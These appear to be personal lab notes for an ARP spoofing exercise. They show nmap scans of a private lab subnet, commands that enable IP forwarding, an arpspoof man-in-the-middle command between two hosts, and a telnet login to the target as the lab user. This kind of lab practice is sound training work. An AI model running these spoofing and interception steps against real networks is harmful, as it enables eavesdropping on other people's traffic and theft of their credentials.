

Labs ARP Spoofing


```
└─$ nmap -sn 10.100.13.140/24                                             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-13 21:01 EDT
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.100.13.36
Host is up (0.82s latency).
Nmap scan report for 10.100.13.37
Host is up (0.55s latency).
Nmap scan report for 10.100.13.140
Host is up (0.00077s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 19.30 seconds
                                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ nmap -sV 10.100.13.36 10.100.13.37
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-13 21:07 EDT
Nmap scan report for 10.100.13.36
Host is up (0.25s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 10.100.13.37
Host is up (0.48s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (2 hosts up) scanned in 312.94 seconds

```
https://wiki.archlinux.org/title/Internet_sharing#Enable_packet_forwarding
```
[root@hackerbook hacker]# echo 1 > /proc/sys/net/ipv4/ip_forward
[root@hackerbook hacker]# echo 1 > /proc/sys/net/ipv4/ip_forward
[root@hackerbook hacker]# sysctl net.ipv4.ip_forward=1

```

Just arpspoof bidirections. Do it with kali
```
sudo arpspoof -i tap0 -t 10.100.13.37 10.100.13.36 
```



```
┌──(kali㉿kali)-[/tmp]
└─$ telnet 10.100.13.37
Trying 10.100.13.37...
Connected to 10.100.13.37.
Escape character is '^]'.
Debian GNU/Linux 7
telnetserver login: elsuser
Password: 

Login incorrect
telnetserver login: elsuser
Password: 
Last login: Sun Aug 15 07:12:36 PDT 2021 on pts/0
Linux telnetserver 3.2.0-4-amd64 #1 SMP Debian 3.2.60-1+deb7u3 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
elsuser@telnetserver:~$ ls
README
elsuser@telnetserver:~$ cat README
You did it!!!!

```